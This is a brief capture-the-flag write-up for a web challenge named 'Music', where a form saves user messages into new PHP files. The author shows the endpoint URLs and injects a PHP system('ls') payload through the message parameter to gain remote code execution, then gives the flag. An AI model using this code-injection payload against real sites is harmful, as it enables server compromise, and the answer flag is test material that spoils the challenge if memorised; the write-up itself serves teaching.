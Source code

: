 # Feb. 9 - Music
> Look at this neat website I found! It's not complete yet, but when it is, it will give you personlized music recommendations like you've never seen before! I think you should check it out. I left a Valentine as a message on the website 😁

## About the Challenge
We were given a website and we need to find the flag from it (Because of the website is down all the time, i can't provide you any screenshot for this chall)

## How to Solve?
If we check the website, there is a form and if we submit the form there is a new endpoint like this
```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=Test
```
And then 1-2 seconds, we will be redirected to a PHP file that the output of our input. The endpoint will look like this.
```
https://music-mhsctf.0xmmalik.repl.co/message/dzwdu6599.php
```

So, we can doing RCE (Remote Code Execution) by submitting PHP syntax like this

```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=<?php system("ls"); ?>
```
And we will got the flag by checking someone's file :D

```
valentine{n3ver_g0nn4_give_y0u_up}
```